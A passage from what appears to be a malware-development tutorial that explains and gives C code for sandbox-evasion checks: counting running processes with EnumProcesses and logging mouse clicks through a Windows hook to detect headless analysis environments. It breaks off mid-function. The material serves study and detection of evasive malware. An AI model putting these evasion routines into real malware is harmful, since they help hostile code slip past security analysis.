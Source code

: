 The processes will be enumerated using the `EnumProcesses` technique. The `CheckMachineProcesses` function returns `TRUE` if it detects a sandbox which is if the system is running less than 50 processes.

```c
BOOL CheckMachineProcesses() {

	DWORD		adwProcesses	[1024];
	DWORD		dwReturnLen		= NULL,
			    dwNmbrOfPids		= NULL;

	if (!EnumProcesses(adwProcesses, sizeof(adwProcesses), &dwReturnLen)) {
		printf("\n\t[!] EnumProcesses Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	dwNmbrOfPids = dwReturnLen / sizeof(DWORD);

	// If less than 50 process, it's possibly a sandbox	
	if (dwNmbrOfPids < 50)	 
		return TRUE;

	return FALSE;
}
```

### Anti-Virtualization Via User Interaction

Sandboxes often run in a headless environment, meaning that there is no display or peripherals, such as a keyboard and mouse. Headless environments are also typically automated and triggered by scripts or other tools. The lack of user interaction can be an indicator of a possible sandbox environment. For example, the malware can check if an environment does not receive any mouse clicks or keystrokes over a certain period.

Recall the _API Hooking - Using Windows APIs_ module where the `SetWindowsHookExW` and `CallNextHookEx` WinAPIs were used to track mouse clicks. The same technique is applied in the function below, `MouseClicksLogger`. If it does not receive more than 5 mouse clicks over a period of 20 seconds then it will assume it's inside a sandboxed environment.

```c
// Monitor mouse clicks for 20 seconds
#define MONITOR_TIME   20000 

// Global hook handle variable
HHOOK g_hMouseHook      = NULL;
// Global mouse clicks counter
DWORD g_dwMouseClicks   = NULL;

// The callback function that will be executed whenever the user clicked a mouse button
LRESULT CALLBACK HookEvent(int nCode, WPARAM wParam, LPARAM lParam){

    // WM_RBUTTONDOWN :         "Right Mouse Click"
    // WM_LBUTTONDOWN :         "Left Mouse Click"
    // WM_MBUTTONDOWN :         "Middle Mouse Click"

    if (wParam == WM_LBUTTONDOWN || wParam == WM_RBUTTONDOWN || wParam == WM_MBUTTONDOWN) {
        printf("[+] Mouse Click Recorded \n");
        g_dwMouseClicks++;
    }

    return CallNextHookEx(g_hMouseHook, nCode, wParam, lParam);
}


BOOL MouseClicksLogger(){
    
```